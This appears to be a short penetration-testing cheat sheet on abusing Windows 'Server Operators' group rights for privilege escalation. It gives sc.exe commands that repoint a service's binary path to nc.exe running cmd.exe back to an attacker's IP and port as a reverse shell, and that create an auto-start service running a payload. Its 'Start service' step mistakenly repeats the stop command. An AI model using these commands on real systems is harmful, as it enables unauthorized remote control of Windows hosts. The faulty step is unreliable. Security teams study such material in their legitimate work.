 ```yaml
---
title: "Server Operators"
date: 2024-7-13
tags: ["Server Operators", "Active Driectory", "Windows", "Privilege Escalation", "Service", "Reverse Shell"]
---
```


### Abuse #1: Change service path

#### 1. Change service path

```console
# Assume nc.exe is uploaded
sc.exe config <SERVICE> binPath= "C:\ProgramData\nc.exe -e cmd.exe <LOCAL_IP> <LOCAL_PORT>"
```

#### 2. Restart service

```console
# Stop service
sc.exe stop <SERVICE>
```

```console
# Start service
sc.exe stop <SERVICE>
```

### Additional: Create service

```console
# Create a service
sc.exe create <NEW_SERVICE> binpath= C:\ProgramData\rev.exe start= auto
```

<small>*Note: there is a space after named arguments*</small>